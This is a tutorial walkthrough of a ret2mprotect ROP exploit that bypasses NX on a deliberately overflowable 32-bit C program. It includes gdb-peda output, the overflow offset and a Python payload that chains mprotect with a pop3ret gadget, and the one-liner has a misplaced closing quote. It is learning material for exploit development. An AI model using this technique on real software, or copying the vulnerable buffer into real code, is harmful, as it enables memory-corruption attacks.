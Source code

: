 ## ROP : pointer leaking + return-into-mprotect()

- - -

#### We are in the era of high complexity to bypass mitigation against memory corruption.

**Ret2mprotect** is an elegant way to bypass mitigation like **NX/DEP** by jumping on ```mprotect()``` to set executable/read/write memory page.

I assume that you're confortable with stack-based overflow, ASM and shellcode.

Let's take a vanilla sample :

```
#include<stdio.h> #include<stdlib.h>

int main() {
    char name[512];
    fgets(name, 1024, stdin);
    printf("Hello %s", name);
    return 0;
}
```

Compile it with explicit no executable stack flag for x86 architecture.

```
$ gcc -m32 pwnme.c -o pwnme -znoexecstack

$ file pwnme exploitme: ELF 32-bit LSB executable, Intel 80386, version 1
(SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.26,
BuildID[sha1]=0x19883d935e336675dd19ceb894dc09fd15e5903c, not stripped
```

Basically, same methodology for any stack-based overflow by creating a unique pattern (using *metasploit*).
We will override EIP at offset 524.

```
$ /usr/share/metasploit-framework/tools/pattern_create.rb 999 > /tmp/in
$ gdb ~/pwnme -q
gdb-peda$ r < /tmp/in Stopped reason: SIGSEGV 0x35724134 in ?? ()
$ /usr/share/metasploit-framework/tools/pattern_offset.rb 0x35724134
[*] Exact match at offset 524
```

Our stack begin at ```0xfffdd000``` and have a size of ```0x21000```.

```
gdb-peda$ vmmap
Start      End        Perm  Name
0xfffdd000 0xffffe000 rw-p  [stack]
```

Assuming that **ASLR** is disabled.

```
gdb-peda$ p mprotect $1 = {<text variable, no debug info>} 0xf7f2d2e0 <mprotect>

Address of mprotect : 0xf7f2d2e0
```

The manual of ```mprotect()``` give us the signature of the function.

```
$ man mprotect

NAME mprotect - set protection on a region of memory

SYNOPSIS #include <sys/mman.h> int mprotect(void *addr, size_t len, int prot);
```

Thus we know which argument to push.
It should look like this : ```mprotect(0xfffdd000, 0x21000, 0x7);```

```
gdb-peda$ searchmem CC 0xfffdd000 0xffffe000 Searching for 'cc' in range:
0xfffdd000 - 0xffffe000 Found 516 results, display max 256 items: ... [stack] :
0xffffd2c0 --> 0xcccccccc [stack] : 0xffffd2c1 --> 0xcccccccc [stack] :
0xffffd2c2 --> 0xcccccccc [stack] : 0xffffd2c3 --> 0xcccccccc [stack] :
0xffffd2c4 --> 0xcccccccc [stack] : 0xffffd2c5 --> 0xcccccccc [stack] :
0xffffd2c6 --> 0xcccccccc [stack] : 0xffffd2c7 --> 0xcccccccc [stack] :
0xffffd2c8 --> 0xcccccccc
```

```
gdb-peda$ ropgadget
... 
pop3ret = 0x8048882
```

```
python -c "
    print'\xCC' * 524         # CC is the opcode for SIGTRAP
    +'\xe0\xd2\xf2\xf7'       # address of mprotect()
    +'\x82\x88\x04\x08'       # pop3ret cleaning the stack layout
    +'\x00\xd0\xfd\xff'       # address of the stack
    +'\x00\x10\x02\x00'       # size of the stack
    +'\x07\x00\x00\x00'"      # flag read/write/execute
    +'\xc0\xd2\xff\xff'       # payload on the stack ;)
```

After calling mprotect you can notice the execution flag on the stack.

```
gdb-peda$ vmmap
Start      End        Perm  Name
0xfffdd000 0xffffe000 rwxp	[stack]
```

@tfairane greetz @barrebas
